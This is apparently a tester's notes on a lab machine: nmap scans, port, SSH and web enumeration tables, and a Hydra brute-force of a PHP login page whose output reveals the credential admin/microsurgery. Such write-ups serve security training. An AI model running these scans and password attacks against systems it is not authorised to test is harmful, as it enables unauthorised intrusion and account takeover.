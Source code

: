 ## Initial scans
Undertake an initial TCP and UDP scans of the target machines


~~~ bash
sudo nmap [IP] -oG nmap_tcp_initial

sudo nmap [IP] -sU -oG nmap_udp_initial

sudo nmap [IP] -sn -oG nmap_network_sweep

sudo nmap [IP] -O --osscan-guess -oG nmap_os_guess

sudo nmap [IP] -p 22 -oG nmap_tcp_p25

sudo nmap [IP] -p 22 -oG nmap_tcp_p80

sudo nmap [IP] --script ssh2-enum-algos.nse -oG nmap_script_ssh2-enum-algos

sudo nmap [IP] --script ssh-auth-methods.nse -oG nmap_script_ssh-auth-methods

sudo nmap [IP] --script http-enum.nse -oG nmap_script_http-enum

~~~

## Scan results
|port|type|service|status|scan log|notes|
|----|----|-------|------|--------|-----|
|22|tcp|ssh|open|nmap_tcp_initial|none|
|80|tcp|http|open|nmap_tcp_initial|none|
## Users
|username|password|service|hash type|log|free text|
|----|----|-------|------|--------|-----|
|none|none|none|none|none|none|
|none|none|none|none|none|none|
## Operating system
Linux
## Authentication methods
|port|service|authentication method|notes|
|----|-------|----|-----|
|22|ssh|public key|none|
|22|ssh|password|none|
## HTTP enumeration
|url|folder|file|note|
|---|------|----|----|
|[IP]/login.php|N/A|login.php|none|
|[IP]/css/|css|N/A|none|
|[IP]/img/|img|N/A|N/A|none|
|[IP]/js/|js|N/A|none|
|[IP]/lib/|lib|N/A|none|

### Hydra
Using hydra to to brute force the web page at [IP]/login.php

~~~ bash

# this command was run on the login page 
# 192.168.162.202/login.php
hydra -L /usr/share/wordlists/metasploit/http_default_users.txt -P /usr/share/wordlists/metasploit/password.lst 192.168.162.202 http-post-form "/login.php:username=^USER^&password=^PASS^&login=login:Username password combination is wrong\!"

#############
admin
microsurgery
#############

hydra -L /usr/share/wordlists/metasploit/http_default_users.txt -P /usr/share/wordlists/metasploit/password.lst 192.168.162.202 http-post-form "/login.php:username=^USER^&password=^PASS^&login=login:Username password combination is wrong\!"
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-10-17 20:09:12
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1237572 login tries (l:14/p:88398), ~77349 tries per task
[DATA] attacking http-post-form://192.168.162.202:80/login.php:username=^USER^&password=^PASS^&login=login:Username password combination is wrong!
[STATUS] 732.00 tries/min, 732 tries in 00:01h, 1236840 to do in 28:10h, 16 active
[STATUS] 737.33 tries/min, 2212 tries in 00:03h, 1235360 to do in 27:56h, 16 active
[STATUS] 750.43 tries/min, 5253 tries in 00:07h, 1232319 to do in 27:23h, 16 active
[STATUS] 752.87 tries/min, 11293 tries in 00:15h, 1226279 to do in 27:09h, 16 active
[STATUS] 748.77 tries/min, 23212 tries in 00:31h, 1214360 to do in 27:02h, 16 active
[STATUS] 751.47 tries/min, 35319 tries in 00:47h, 1202253 to do in 26:40h, 16 active
[STATUS] 749.84 tries/min, 47240 tries in 01:03h, 1190332 to do in 26:28h, 16 active
[STATUS] 618.28 tries/min, 48844 tries in 01:19h, 1188739 to do in 32:03h, 5 active
[80][http-post-form] host: 192.168.162.202   login: admin   password: microsurgery
[STATUS] 961.88 tries/min, 91379 tries in 01:35h, 1146204 to do in 19:52h, 5 active
[STATUS] 857.00 tries/min, 95127 tries in 01:51h, 1142456 to do in 22:14h, 5 active
[STATUS] 416.67 tries/min, 95146 tries in 03:48h, 1142437 to do in 45:42h, 5 active

~~~

